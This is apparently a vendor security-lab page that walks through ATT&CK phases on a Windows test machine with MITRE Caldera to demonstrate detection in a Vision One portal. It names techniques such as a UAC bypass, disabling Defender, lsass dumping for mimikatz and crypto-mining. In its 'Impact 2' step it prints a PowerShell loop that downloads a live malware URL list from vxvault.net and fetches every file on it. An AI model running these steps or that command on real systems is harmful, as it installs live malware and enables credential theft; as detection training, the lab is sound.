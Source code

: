 ```yaml
---
title: "Windows"
chapter: false
weight: 52
pre: "<b>5.2 </b>"
---
```


<b>Before you start this lab, make sure the C1WS Policy attached to the Windows Instance is the "demo > visionone > prevention mode" policy.</b>

### ATT&CK Phases
#### Reconnaissance
This step was skipped because we know the target of our attack (Windows and Linux Instances)

---
#### Resource Development
We used Mitre Caldera to generate the payloads used to compromise our targets

---
#### Initial Access and Execution
We deployed the malicious payloads manually to the Windows and Linux Instances. In a Real-world scenario, we could have used a Malicious Email message, including the link to the malicious files. In this way, compromising the target computers.

---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="ECAPmLFwiXY" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "UAC bypass registry (T1548.002) - Set a registry key to allow UAC bypass". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="o-hCzQjhNLs" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Disable Windows Defender All (T1562.001) - Disable Windows Defender All".

{{< youtube id="w5pnVRvGS6k" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Leverage Procdump for lsass memory (T1003.001) - Dump lsass for later use with mimikatz". You may find sensitive information with this technique.

{{< youtube id="syO6uPBEhQc" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Find System Network Connections (T1049) - Find System Network Connections". You may find additional targets for this attack (Lateral Movement for example).

{{< youtube id="ReflY0x4k5A" >}}

---
#### Lateral Movement
Under development..


---
#### Command & Control
You can use the same tatics used on the step "Persistence", or even using other customm tools to interact with the C&C Server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.

{{< youtube id="X2zpomhJNLo" >}}

---
#### Exfiltration
Under development..

---
#### Impact 1
Using Mitre Caldera, you can deploy the Techniques "Crypto (Monero) Mining (T1496) - Download and execute Monero miner (xmrig) for 1 minute" and "Leave note (T1491) - Create a text file for the user to find". With this two techniques, you can create an impact that will affect the performance and expose the affected server to other risks, and also leave a note to tell the target of the attack about your intentions and what you have done so far.

{{< youtube id="LDqfBhn0DyQ" >}}

---
#### Impact 2
Using Mitre Caldera, execute the following Manual Commands.

        New-Item -Path c:\tmp -ItemType Directory;
        Invoke-WebRequest http://vxvault.net/URL_List.php -OutFile c:\tmp\urls.txt;
        Set-Location -Path c:\tmp;
        foreach($line in Get-Content c:\tmp\urls.txt) {Invoke-WebRequest -Uri $line -OutFile $(Split-Path -Path $line -Leaf)}

---
## Reviewing the Detections 
Review your Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.

{{< youtube id="A-mIm0YG-OM" >}}
